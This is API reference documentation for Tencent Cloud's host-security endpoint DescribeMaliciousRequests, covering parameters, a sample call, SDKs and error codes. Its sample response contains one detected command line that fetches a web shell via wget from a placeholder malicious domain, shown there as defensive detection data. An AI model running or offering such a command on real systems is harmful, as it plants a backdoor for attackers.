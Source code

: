 ## 1. API Description

Domain name for API request: yunjing.tencentcloudapi.com.

This API (DescribeMaliciousRequests) is used to obtain malicious request information.

Default request rate limit: 20/sec.

## 2. Input Parameters

The following request parameter list only provides API request parameters and some common parameters. For the complete common parameter list, see [Common Request Parameters](/document/api/296/19828).

| Parameter Name | Required | Type | Description |
|---------|---------|---------|---------|
| Action | Yes | String | Common parameter. The value​used for this API: DescribeMaliciousRequests. |
| Version | Yes | String | Common parameter. The value used for this API: 2/28/2018 |
| Region | No | String | Common parameter. This parameter is not required for this API. |
| Limit | No | Integer | Number of returned results. It defaults to 10. The maximum is 100. |
| Offset | No | Integer | Offset. It defaults to 0. |
| Filters.N | No | Array of [Filter](/document/api/296/19867#Filter) | Filter condition.<br/><li>Status - String - Required: No - Filter by status (UN_OPERATED: Pending &#124; TRUSTED: Trusted &#124; UN_TRUSTED: Untrusted)</li><li>Domain - String - Required: No - Domain name of the malicious request</li><li>MachineIp - String - Required: No - Host private IP</li> |
| Uuid | No | String | Unique UUID of the HS client. |

## 3. Output Parameters

| Parameter Name | Type | Description |
|---------|---------|---------|
| TotalCount | Integer | Total number of records. |
| MaliciousRequests | Array of [MaliciousRequest](/document/api/296/19867#MaliciousRequest) | Array of malicious request records. |
| RequestId | String | The unique ID of a request, which is required for each troubleshooting case. |

## 4. Example

### Example 1 Obtain malicious request information

#### Input example

```
https://yunjing.tencentcloudapi.com/?Action=DescribeMaliciousRequests
&Limit=10
&Offset=0
&<Common request parameters>
```

#### Output example

```
{
  "Response": {
    "MaliciousRequests": [
      {
        "Count": 10,
        "Status": "UN_OPERATED",
        "Domain": "www.malicious_domain.com",
        "Uuid": "add4a78a-0d59-11e8-b7ab-00e081e1a5c5",
        "Reference": "reference",
        "CmdLine": "wget http://www.malicious_domain.com/webshell.php",
        "MachineName": "machienname",
        "Pid": 5577,
        "Id": 1,
        "ProcessName": "wget",
        "ProcessMd5": "ab0ffdb812fab5a0e1e8b83d39c63ce9",
        "MergeTime": "2018-10-10 10:11:12",
        "CreateTime": "2018-10-10 10:11:12",
        "MachineIp": "10.10.1.1",
        "Description": "description"
      }
    ],
    "RequestId": "354f4ac3-8546-4516-8c8a-69e3ab73aa8a",
    "TotalCount": 100
  }
}
```


## 5. Resources for Developers

### API Explorer

**This tool allows online call, signature authentication, SDK code generation and quick search of APIs to greatly improve the efficiency of using cloud APIs.**

* [API 3.0 Explorer](https://console.cloud.tencent.com/api/explorer?Product=yunjing&Version=2018-02-28&Action=DescribeMaliciousRequests)

### SDK

Cloud API 3.0 comes with the software development kit (SDK) that supports multiple programming languages and makes it easier to call the APIs.

* [Tencent Cloud SDK 3.0 for Python](https://github.com/TencentCloud/tencentcloud-sdk-python)
* [Tencent Cloud SDK 3.0 for Java](https://github.com/TencentCloud/tencentcloud-sdk-java)
* [Tencent Cloud SDK 3.0 for PHP](https://github.com/TencentCloud/tencentcloud-sdk-php)
* [Tencent Cloud SDK 3.0 for Go](https://github.com/TencentCloud/tencentcloud-sdk-go)
* [Tencent Cloud SDK 3.0 for NodeJS](https://github.com/TencentCloud/tencentcloud-sdk-nodejs)
* [Tencent Cloud SDK 3.0 for .NET](https://github.com/TencentCloud/tencentcloud-sdk-dotnet)

### Command line tools

* [Tencent Cloud CLI 3.0](https://cloud.tencent.com/document/product/440/6176)

## 6. Error Codes

The following only lists the error codes related to this API. For other error codes, see [Common Error Codes](/document/api/296/19830#.E5.85.AC.E5.85.B1.E9.94.99.E8.AF.AF.E7.A0.81).

| Error Code | Description |
|---------|---------|
| InternalError | Internal error. |
| InvalidParameter.IllegalRequest | Invalid request. |

